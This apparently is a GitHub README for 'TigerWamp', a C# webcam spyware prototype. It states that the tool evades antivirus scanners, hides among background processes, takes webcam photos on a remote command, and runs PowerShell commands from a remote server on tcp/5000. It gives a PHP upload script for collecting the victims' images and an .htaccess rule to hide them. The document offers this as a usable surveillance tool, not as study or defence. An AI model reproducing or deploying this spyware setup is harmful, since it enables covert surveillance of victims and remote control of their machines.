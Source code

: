 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it could bypass Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of the background processes list.

To use it you need your own webserver with directory "uploads/" and a php file "upload.php" with contents:

```php
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
```
The spyware takes snapshots from the webcam (opencv cam 0). The camera photos can be trigger remotely with the 'cam' command. It will try to connect to a remote server on tcp/5000 (Change as needed). It also supports powershell command execution (if your good). More features coming soon.

# Recommended
Add this to your .htaccess file:
```.htaccess
RedirectMatch 404 ^/uploads/?$
```
It will make sure that only the owners of the webserver can access the content.

# Required for operation
1. Make sure you have your own http server (with php) that will accept files. Change this I don't want your data!!!
2. Make sure that you have your own server that can accept connections. Currently it uses my linode server IP!
